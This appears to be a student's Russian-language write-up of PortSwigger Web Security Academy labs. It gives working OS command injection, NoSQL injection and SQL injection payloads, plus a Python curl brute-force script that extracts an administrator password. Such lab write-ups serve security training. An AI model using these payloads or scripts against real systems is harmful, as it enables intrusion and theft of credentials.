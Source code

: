 # Отчет по решению OS injection

## 1. Lab: OS command injection, simple case

Пошарился по лабе со включенным burp proxy, нашел post /product/stock, заинджектил в пост запрос `productId=2&storeId=1;whoami`

## 2. Lab: Blind OS command injection with time delays

В форме feedback можно поинжектить в поле email

` csrf=CvglT8HVqqhEjwmMgG9Z00uYphRnukWL&name=alaska&email=qwe%40ru.ru;sleep%2010;&subject=alaska&message=alaska`

## 3. Lab: Blind OS command injection with output redirection

Инжект находится в том же месте, где раньше, вывод можно посмотреть по пути /image?filename=who.txt

# Отчет по решению NoSQL

## 1. Lab: Detecting NoSQL injection

Инжект производится такой строкой
```
https://0a8b009a035541b580d0a832008f0051.web-security-academy.net/filter?category=Gifts%27||1||%27
```


## 2. Lab: Exploiting NoSQL operator injection to bypass authentication
```
{"username":{
"$regex": "admin.*"},"password":{
"$ne":""}
}
```


## 3. Lab: Exploiting NoSQL injection to extract data

Нашел ручку /user/lookup, написал переборный скрипт

```
import subprocess

for i in range(30):

    result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password.length=='{i}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()
    resfind = result.find("Could not find user")
    if resfind == -1:
        pass_len=i


print(pass_len)
alphabet="abcdefghijklmnopqrstuvwxyz"
pass_us = ""
for i in range(pass_len):
    for j in alphabet:
        result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password%5b{i}%5d+%3d%3d+'{j}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()

        resfind = result.find("Could not find user")
        if resfind == -1:
            pass_us+=j
            print(pass_us)
            continue

```

# Отчет по решению SQL injection

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Нашел, что в url параметрах в запросе при поиске пятисотит при вставке '1=1--

```
https://0aac002e042225ac814c524600eb0023.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%271=1--
```

Добавил туда OR и решил

## 2. Lab: SQL injection vulnerability allowing login bypass

В пароль вставил peter'+OR+1=1--

## 3. Lab: SQL injection attack, querying the database type and version on Oracle

Поигрался со строкой url и информацией из шпоры 

```
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+banner,+null+FROM+v$version--
```

## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

То же что и в прошлом пункте

```
GET /filter?category=Clothing%2c+shoes+and+accessories%27+UNION+SELECT+@@version,+null#
```

## 5. Lab: SQL injection attack, listing the database contents on non-Oracle databases

При помощи information_schema узнал название таблиц и столбцов, а далее

```
/filter?category=Food+%26+Drink'+UNION+SELECT+username_zlsgld,+password_pdgcrz+FROM+users_inrtyt-- 
```

## 6. Lab: SQL injection attack, listing the database contents on Oracle

Тут уже было all_tab_columns и all_tables

```
Pets'+UNION+SELECT+USERNAME_QPCQFG,+PASSWORD_SUWKHT+FROM+USERS_OUTBIY--
```

## 7. Lab: SQL injection UNION attack, determining the number of columns returned by the query

Написал переборный скрипт (lab7.py) и нашел, что нужное количество колонн в запросе - 3

```
https://0a65000d0335c09a818b5cbb001900b1.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,NULL,NULL--
```

## 8. Lab: SQL injection UNION attack, finding a column containing text

По аналогии с прошлым заданием оформил скрипт (lab_8.py), в котором сначала перебором нахожу сколько надо вставить, а затем поочередно каждый заменяю.

```
https://0ac8005a04f8e01c81be480e007d00bf.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+NULL,%27thfFL2%27,NULL--
```

## 9. Lab: SQL injection UNION attack, retrieving data from other tables

Просто и понятно сделать query и все

```
https://0aa9009e0396832a8130482600990072.web-security-academy.net/filter?category=Accessories%27UNION%20SELECT%20username,password%20FROM%20users%20WHERE%20username=%27administrator%27--
```

## 10. Lab: SQL injection UNION attack, retrieving multiple values in a single column

Тут секрет был в том, что первое поле - не могло вернуть строку, потому надо было во второе поле обьединить юзера и пароль

```
https://0a660061049321058110c1f000fa0057.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+NULL,username||%27~%27||password+FROM+users--
```

## 11. Lab: Blind SQL injection with conditional responses

Ужасно долго пытался писать скрипт для перебора на питоне, написал, лежит в lab_11.py

Условие выглядело так:
```
cookies['TrackingId'] = f"ry6OMfqiyJL4qIfd'+AND+(SELECT+SUBSTRING(password,{i+1},1)+FROM+users+WHERE+username='administrator')='{al}"
```

## 12. Lab: Blind SQL injection with conditional errors

Тут примерно так же, но отслеживать надо ошибки 500 при делении на ноль если кейс выполняется

```
'||(SELECT+CASE+WHEN+SUBSTR(password,{i+1},1)='{al}'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator')||'
```

## 13. Lab: Visible error-based SQL injection

Так как мы видим ошибки, то можно попытаться покастовать строку в число :)

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
